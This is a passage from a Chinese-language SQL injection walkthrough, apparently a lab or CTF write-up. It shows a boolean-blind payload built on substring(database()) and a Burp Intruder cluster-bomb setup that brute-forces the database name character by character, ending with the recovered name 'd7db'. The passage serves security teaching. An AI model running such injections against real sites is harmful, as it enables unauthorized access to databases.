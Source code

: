 再次使用函数`substr()`或者`substring()`，用这函数猜测数据库每一位的字符是什么

```shell
/?nid=1 and if(substring(database(),1,1)='s',1,0)--+
#substring(数据，字符位置，截取长度)，这里表示截取数据库的第1个字符开始截取，截取长度为1，也就是截取单个字符，然后进行判断是否为 s
```

首先在burp中修改上面语句后，选择两个攻击位置，并选择`cluster`爆破，再针对每一个攻击位置，设置对应的数据进行爆破即可

设置第一个参数为数字范围`1-4`

![](./pic-8/12.jpg)

设置第二个参数为小写英文+数字，当然也可以自己加上大写字母，以及各种其他字符

![13](./pic-8/13.jpg)

开始攻击，最终发现数据库名称为`d7db`

![](./pic-8/14.jpg)

